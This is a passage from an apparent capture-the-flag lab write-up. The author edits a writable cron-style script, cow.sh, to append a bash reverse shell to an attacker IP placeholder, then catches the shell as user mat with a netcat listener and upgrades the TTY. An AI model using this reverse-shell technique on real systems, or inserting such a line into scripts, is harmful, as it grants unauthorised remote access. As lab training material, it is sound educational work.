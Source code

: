 There a script called **cow.sh** that runs as mat but we as toby are the owner of that file, so we can edit it to get a shell as mat. I added a bash script to **cow.sh** that sends me a reverse shell, the script now looks like this:

```terminal
$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
/bin/bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1
```

Set up a listner on port 9001 and wait.

```terminal
┌──(sirius㉿kali)-[~]                                                                                                                                 [35/36]
└─$ nc -lnvp 9001                                                                                                                                            
listening on [any] 9001 ...                                                                                                                                  
connect to [10.11.31.131] from (UNKNOWN) [10.10.18.205] 39298                                                                                                
bash: cannot set terminal process group (2119): Inappropriate ioctl for device                                                                               
bash: no job control in this shell                                                                                                                           
mat@watcher:~$                                                                                                                                                       
mat@watcher:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                               
mat@watcher:~$ export TERM=xterm                                                                                                                             
export TERM=xterm                                                                                                                                            
mat@watcher:~$ ^Z                                                                                                                                            
zsh: suspended  nc -lnvp 9001                                                                                                                                

┌──(sirius㉿kali)-[~]                                                                                                                                        
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001                                                                                                                              

mat@watcher:~$ ls                                                                                                                                            
cow.jpg  flag_5.txt  note.txt  scripts                                                                                                                       
mat@watcher:~$ whoami                                                                                                                                        
mat                                                                                                                                                          

```

